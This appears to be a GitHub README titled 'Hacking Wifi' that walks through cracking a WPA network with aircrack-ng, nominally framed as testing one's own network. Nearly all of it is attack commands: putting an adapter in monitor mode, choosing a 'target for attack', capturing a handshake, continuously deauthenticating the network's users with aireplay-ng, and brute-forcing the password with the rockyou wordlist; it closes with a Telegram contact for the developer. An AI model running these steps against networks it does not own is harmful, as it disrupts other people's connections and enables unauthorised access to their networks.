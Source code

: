 # Hacking Wifi
This repository will detail the principle of testing your network. With <a href="https://www.aircrack-ng.org/">aircrack-ng</a>.<br>

__You can look at the script repository for hacking a wifi network. <a href="https://github.com/John-MetrosSoftware/HackingWifiScript">Link</a>.__

## Install aircrack-ng
```
sudo apt install aircrack-ng
```

## Remove unnecessary processes
This command will check and kill processes that might interfere with the aircrack-ng package:
```
sudo airmon-ng check kill
```
## Putting the wifi adapter into monitoring mode
You need to define your network interface. To do this, use the command below, it will display all available network interfaces.
```
ifconfig
```
We are interested in the `wlan0` network interface.<br>
Now we need to put our network adapter into monitoring mode.<br>
```
sudo airmon-ng start wlan0
```
## Monitoring of all wifi networks.
Start browsing wifi networks.
```
sudo airodump-ng wlan0
```
## Monitoring of a specific wifi network.
After viewing, we need to select a target for attack.<br>
The parameters we are interested in are: `bssid` and `channel`.
After the selection, we start interception on a specific access point.
```
airodump-ng --bssid <bssid> -c <cannel> -w <name_wpa_handshake> <network_interface>
```
Example:
```
airodump-ng --bssid ff:ff:ff:ff:ff:ff -c 1 -w handshake wlan0
```
## Wifi network user deauthentication
Now we need to open a new console window.<br>
Now you need to authenticate users of the wifi network. With airplay-ng.
```
aireplay-ng --deauth <number_of_users> -a <bssid> <network_interface>
```
Example:
```
aireplay-ng --deauth 0 -a ff:ff:ff:ff:ff:ff wlan0
```
## Bruteforce
After capturing the handshake, we start brute-force the password using the dictionary. You can use `rockyou.txt` located in `/usr/share/wordlists/rockyou.txt`. If it is packed in an archive, that is, the file name is `rockyou.txt.gz`, then you need to unpack it with the command below.
```
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
We will use this dictionary for brute force, but you can use your own.
```
aircrack-ng <name_wpa_handshake> -w <path_to_dictionary>
```
Example:
```
aircrack-ng handshake-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Conclusion
After that, if specifically in the dictionary you specified there is a password combination that will be correct, then the password will be determined and brute force will end; if there is no such combination in the dictionary, then try in another one.
<br><br>
Here we have analyzed the easiest way to hack a wifi network using brute force.
## Developer 
Telegram : https://t.me/metrossoftware
